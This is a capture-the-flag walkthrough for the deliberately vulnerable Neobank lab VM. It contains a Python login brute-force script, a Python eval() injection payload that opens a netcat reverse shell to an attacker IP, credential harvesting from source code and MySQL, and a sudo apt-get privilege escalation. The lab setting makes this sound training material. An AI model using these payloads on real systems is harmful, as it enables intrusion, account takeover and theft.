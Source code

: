 ```yaml
---
layout: post
title:  "Neobank - HackMyVM / Vulnhub"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/neobank-1,642/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Neobank`

- Difficulty : Medium

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/kxbu7R75AxQ" frameborder="0" allowfullscreen></iframe>

## Directory Scan

```sh
gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

{% highlight sh %}
  /login
  /logout
  /otp
  /qr
  /withdraw
  /email_list
{% endhighlight %}

## Retreive emails

- Under the `/email_list` you can retrieve the emails

```sh
zeus@neobank.vln
hera@neobank.vln
apollo@neobank.vln
athena@neobank.vln
poseidon@neobank.vln
ares@neobank.vln
artemis@neobank.vln
demeter@neobank.vln
aphrodite@neobank.vln
dionysos@neobank.vln
hermes@neobank.vln
hephaistos@neobank.vln
```

## Brute force

- Creating the `pins` wordlist using `rockyou.txt`

```
cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt
```

- bruteforce script

{% highlight python %}
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
{% endhighlight %}

- Run it
```
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : zeus@neobank.vln
[+] Password : 2*****
```

## OTP google authenticator

- Scan the qrcode and insert the otp code

## Exploit eval() python function

```
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```

#### MySQL enumeration find banker credentials

{% highlight sh %}
  cat /var/www/html/main.py
  banker:neobank1
  mysql -u banker -pneobank1
  use bank;
  select * from system;
  banker:adv1se.me
{% endhighlight %}

## GTFObins

- sudo -l

{% highlight sh %}
  sudo apt-get changelog apt
  !/bin/sh
{% endhighlight %}

- This vm created by me, i enjoyed the process
